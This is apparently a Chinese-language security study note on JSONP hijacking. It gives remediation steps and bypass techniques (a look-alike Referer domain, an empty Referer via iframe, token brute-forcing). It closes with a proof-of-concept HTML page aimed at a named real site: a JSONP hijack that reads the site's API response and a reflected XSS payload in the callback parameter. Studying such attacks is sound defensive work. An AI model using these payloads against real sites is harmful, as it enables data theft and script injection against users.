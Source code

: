 
#### 修复方案
1、严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等。   
2、严格执行JSON 格式标准输出 Content-Type 及编码（ Content-Type : application/json; charset=utf-8 ）。   
3、严格过滤 callback 函数名及 JSON 里数据的输出。   
4、严格限制对 JSONP 输出 callback 函数名的长度(如防御上面 flash 输出的方法)。   
5、其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：`/**/`、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。    

#### Bypass方法
1. Referer限制不严格，比如baidu.com的域名限制，购买个baidu.com.reabout.com域名。   
空 Referer 的绕过法，比如当浏览器直接访问某地址的时候，是不带 Referer 的，是为空的，比如 <iframe> 标签。   
2. 随机token，爆破  

游侠网jsonp漏洞例子，一是jsonp劫持，二是jsonp xss漏洞。   
```
<html>
<script>
function jsonp2(json){ 
alert(JSON.stringify(json)) 
document.write(JSON.stringify(json))
  } 
</script>  

<script src="http://i.ali213.net/api.html?action=logout&callback=jsonp2"></script></br>
<a>XSS漏洞地址：</a><a href="http://i.ali213.net/api.html?action=logout&callback=a<script>alert(1)</script>a" target="_blank">请点击！</a>
</html>
```

- Ref[]:[JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- Ref[]:[对jsonp劫持的一次简单了解](http://sh1yan.top/2018/08/12/jsonp-study/)


## Ref
- https://xuanxuanblingbling.github.io/



